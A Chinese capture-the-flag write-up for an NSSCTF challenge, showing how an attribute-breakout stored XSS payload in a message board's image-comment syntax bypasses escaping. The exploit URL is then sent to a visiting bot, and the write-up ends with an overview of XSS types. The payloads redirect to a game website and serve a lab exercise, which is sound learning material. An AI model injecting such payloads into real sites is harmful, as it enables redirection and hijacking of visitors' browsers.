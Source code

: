 ## 基本信息

- 题目名称：[NSSRound#18]门酱想玩什么呢
- 题目链接: https://www.nssctf.cn/problem/5123
- 考点清单: 存储型XSS攻击
- 工具清单：无
- 难度: 中等

## 一、看到什么

**题目关键信息列表**：

打开靶机播放完视频后出现做题界面：

![](./images/3-19题目wp_index.png)

查看网页源代码，发现如下JS代码：

<div style="font-size: 0.8em; max-height: 400px; overflow: auto;">

```javascript
document.querySelector('form').addEventListener('submit', async function(e) {
    e.preventDefault();
    var url = document.getElementById('url').value;
    var submitBtn = document.querySelector('button[type="submit"]');
    submitBtn.disabled = true;
    submitBtn.textContent = '提交中...';
    
    try {
        var response = await fetch(window.location.href, {
            method: 'POST',
            headers: {'Content-Type': 'application/json'},
            body: JSON.stringify({url: url})
        });
        
        var result = await response.json();
        document.getElementById('result').textContent = result.message;
    } catch (error) {
        document.getElementById('result').textContent = '发生错误: ' + error.message;
    } finally {
        submitBtn.disabled = false;
        submitBtn.textContent = '提交';
    }
});
```
</div>

这段代码处理表单提交，向当前页面发送POST请求，并显示响应结果。

传递链接处尝试提交一个普通网站链接

![](./images/3-19题目wp_baidu.com.png)

发现回显要自己网站的链接

在首页找到评论区入口，进入留言板页面：

![](./images/3-19题目wp_message_pad.png)

这是一个典型的留言板系统，通常是存储型XSS的常见目标。

## 二、想到什么解题思路

1. 题目要求让"门酱"访问元梦之星下载链接
2. 在留言板源码中有特殊的图片评论写法示例
3. 可能存在注入点
4. 需要构造特殊payload实现跳转

## 三、尝试过程和结果记录

1. 首先尝试基本的XSS payload：

```javascript
<script>document.location="https://ymzx.qq.com"</script>
```

结果：

![](./images/3-19题目wp_test.png)

尖括号和引号被转义，无法直接注入脚本。

2. 构造绕过Payload

根据留言板中的示例提示：

```
写法：http://xxx.xxx.xxx/xxx.png 这是一个示例 123 /png
```

构造特殊payload：

```javascript
http://"><script>document.location="https://ymzx.qq.com"</script>.png /png
```

提交后发现成功跳转到圆梦之星官网：

<div style="text-align: center;">
<img src="imgs/3-19题目wp_jump.png" width="500" />
<img src="imgs/3-19题目wp_injection.png" width="500">
</div>

3. 最后一步是让"门酱"访问我们的XSS页面：

1. 已在留言板构造好XSS payload
2. 将留言板链接提交给"门酱"
3. 链接格式如下：

```url
http://node4.anna.nssctf.cn:28224/words/?title=MTIzNDU2&content=aHR0cCUzQSUyRiUyRiUyMiUzRSUzQ3NjcmlwdCUzRWRvY3VtZW50LmxvY2F0aW9uJTNEJTIyaHR0cHMlM0ElMkYlMkZ5bXp4LnFxLmNvbSUyMiUzQyUyRnNjcmlwdCUzRS5wbmclMjAlMkZwbmc=
```

"门酱"访问后会被重定向到元梦之星，我们获得flag。

## 四、总结与反思

XSS(跨站脚本攻击)是一种常见的Web安全漏洞：

- 全称Cross-Site Scripting
- 利用网站未对用户输入进行充分过滤
- 注入恶意JavaScript代码
- 被浏览器执行，获取用户信息或执行恶意操作

XSS的基本原理

- XSS攻击的核心是让受害者的浏览器执行攻击者提供的代码：
   1. 攻击者找到注入点
   2. 构造恶意代码
   3. 诱使用户访问含有恶意代码的页面
   4. 浏览器执行恶意代码
   5. 窃取信息或执行未授权操作

XSS的三种主要类型

**反射型XSS**
- 非持久性XSS
- 攻击代码包含在URL中
- 用户输入被立即"反射"回浏览器
- 需要诱使用户点击特制URL

**存储型XSS**
- 持久性XSS
- 攻击代码存储在目标服务器中
- 任何访问包含恶意代码的页面的用户都会受到攻击
- 危害更大，更难察觉

> 存储型XSS与反射型XSS的根本区别在于攻击向量的持久性。存储型XSS将恶意代码存储在服务器中，任何访问包含该代码的页面的用户都会成为受害者，无需额外诱导。这种持久性使得存储型XSS的危害更为严重，攻击范围更广，也更难以被用户察觉。

**DOM型XSS**
- 在客户端JavaScript中处理用户输入时发生
- 不涉及服务器处理
- 发生在浏览器DOM环境中
- 服务器响应内容可能完全正常

![](./images/3-19题目wp_3xss.png)

五、参考链接：

- 《从0到1：CTFer成长之路》

- 《web漏洞解析与攻防实战》